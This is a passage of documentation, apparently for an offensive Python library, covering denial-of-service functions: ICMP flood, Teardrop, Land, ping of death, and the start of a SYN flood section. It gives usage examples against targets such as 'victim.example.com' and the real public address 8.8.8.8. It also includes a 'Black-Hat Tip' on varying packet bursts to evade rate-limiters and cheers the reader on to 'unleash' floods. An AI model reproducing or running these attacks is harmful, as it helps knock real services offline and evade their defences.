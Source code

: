 **Black‑Hat Tip:** Vary packet sizes and interleave bursts to evade simple rate-limiters.

**Example – Night Raid:**  
```python
# Unleash relentless flood on the target:
DOS.Layer3.icmp_flood("victim.example.com", threads=20, always=True)

# Stealthy timed bursts (50 pps):
DOS.Layer3.icmp_flood("10.0.0.5", threads=5, pps=50, always=False)
````

#### `teardrop(target: str, threads: int = 5, always: bool = True)`

**What it does:**
Sends overlapping IP fragments that crash or freeze older stacks (Teardrop).

**Example – Vintage Exploit:**

```python
# Exploit legacy OS bug:
DOS.Layer3.teardrop("10.10.10.10", threads=3, always=False)
```

#### `land(target: str, port: int = 80, threads: int = 5, always: bool = True)`

**What it does:**
Sends TCP SYN with identical source/dest, confusing the TCP stack.

**Example – TCP Trickery:**

```python
# Simple Land attack:
DOS.Layer3.land("victim.server.local", port=8080)
```

#### `ping_of_death(target: str, threads: int = 3, always: bool = True)`

**What it does:**
Floods oversized ICMP packets (>65KB) to overflow buffers. Rarely works on modern OS.

**Example – Buffer Bloat:**

```python
DOS.Layer3.ping_of_death("8.8.8.8", threads=2, always=False)
```

---

### 29.2 Layer4 – Transport Layer Attacks

> TCP/UDP floods to exhaust connection tables and bandwidth.

* **Cross‑Platform:** ✅ (Linux/macOS may require root for raw sockets)

#### `syn_flood(target: str, port: int = 80, threads: int = 10, pps: int = 100, always: bool = True)`
